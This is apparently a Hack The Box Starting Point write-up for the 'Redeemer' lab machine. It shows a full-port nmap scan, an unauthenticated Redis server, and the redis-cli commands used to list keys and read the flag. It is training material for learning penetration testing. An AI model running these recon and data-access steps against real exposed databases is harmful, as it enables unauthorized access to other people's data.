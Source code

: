 # Redeemer (Very Easy)
- **IP Address:** 10.129.248.14 
- **OS:** Linux
- **Difficulty:** Very Easy
- **HTB Link:** [Machine Page](https://app.hackthebox.com/starting-point)

---

## Enumeration 

### Nmap Scan

```
nmap -sV -p- -T5 10.129.248.14
```
None of the first 1000 ports were open, so I scanned for all ports. 

### Open Ports & Services
#### Syntax: Port ; Service ; Version

6379/tcp ; redis ; Redis key-value store 5.0.7

redis (Remote Dictionary Server)  is an open-source, in-memory data store and database that is used as a cache and message broker.
It is a NoSQL database that stores data in memory instead of on disk. 

---

## Exploitation

```
redis-cli -h 10.129.248.14
```
This command allows us to connect to the redis server.
```
info
```
This will give us important information, such as the Keyspace, and the number of databases. In this case there is only one database, db0.

---

## Post-Exploitation

```
select 0
keys *
```
These two commands will select the db0 database and then list all the keys. We can see that there is one named flag.
```
get flag
```
will retrieve the flag for us.  

There were also 3 other keys that we could have looted.

### [Flags](https://github.com/TianKwock/htb-flags/blob/main/README.md#redeemer.md)

---

## Lessons Learned

1. redis is a key-value database.
2. The default 1000 port nmap scan may not always return what we should be finding.

---

Perceived Difficulty:  Piece of Cake!

Time Taken:  15 min

Date PWNED: 02/12/2025
